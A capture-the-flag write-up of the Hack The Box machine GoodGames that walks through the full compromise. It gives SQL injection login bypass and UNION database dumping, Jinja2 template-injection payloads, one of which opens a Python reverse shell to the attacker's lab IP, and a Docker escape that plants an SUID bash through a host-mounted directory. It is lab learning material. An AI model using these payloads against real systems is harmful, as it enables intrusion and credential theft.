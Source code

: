 ![](goodgames_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.130 goodGames.htb

**nmap scan:**
```bash
PORT   STATE SERVICE  VERSION
80/tcp open  ssl/http Werkzeug/2.0.2 Python/3.9.2
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-title: GoodGames | Community and Store
```

* Hostname: `GoodGames.HTB`

A normal looking web app talking about video games

![](screenshots/web-front.png)

There is a option for signup/login

![](screenshots/web-signup.png)

There is really simple sql injection in email parameter to bypass login and get admin 

![](screenshots/sqli-login.png)

After login, there is a extra settings icon in top right corner which redirect to a subdomain `internal-administration.goodgames.htb`

Another login page form subdomain

![](screenshots/sub-login.png)

# Foothold

## SQLi

back to the login sql injection, There's a reflected field in login

![](screenshots/login-union-injection.png)

Dump database

* database_name: main
* table: user
* column: id,email,password,name

```
' UNION SELECT ALL 1,2,3,group_concat(id,":",email,":",password,":",name) from main.user#
```

![](screenshots/dump-login-creds.png)


password cracked with john using rockyou.txt
```
1:admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec:admin:superadministrator
```

And these creds reuse in subdomain Flask Dashboard

![](screenshots/volt-logged-in.png)


## SSTI

In the volt dashboard, found SSTI(Server-Side Template Injection) in `/settings` reflected in the user's profile name

![](screenshots/ssti-in-name.png)

* From nmap scan, this is a Python server so template framework is possibly jinja2.


Payload form [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-subprocesspopen)
```python
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```

![](screenshots/ssti-rce.png)

Get reverse shell with [pyaload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)
```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.37\",4141));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

Get root shell inside docker container.

# Privesc

## Docker escape

Running [deepce.sh](https://github.com/stealthcopter/deepce) script, find host mounts
```bash
====================================( Enumerating Mounts )====================================
[+] Docker sock mounted ....... No
[+] Other mounts .............. Yes
/home/augustus /home/augustus rw,relatime - ext4 /dev/sda1 rw,errors=remount-ro
[+] Possible host usernames ... augustus rw,relatime - ext4 
```

`/home/augustus` directory contains user flag and user `augustus` in not in the docker container.

Host is reachable from container and running ssh

![](screenshots/ssh-verify.png)


ssh to host using reused password `superadministrator` for user "augustus"

![](screenshots/ssh-to-host.png)


## Host mount inside docker

We know that `/home/augustus` mounted in the container and we are root in the container.

That means we can create any file or edit any file inside `/home/augustus` directory as root.

just copy host bash binary in user's directory and give suid permission as root from container.

```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ exit
root@3a453ab39d3d:/home/augustus$ chown root:root bash
root@3a453ab39d3d:/home/augustus$ chmod +s bash
root@3a453ab39d3d:/home/augustus$ ssh augustus@172.19.0.1
augustus@GoodGames:~$ ./bash -p
```

![](screenshots/rooted.png)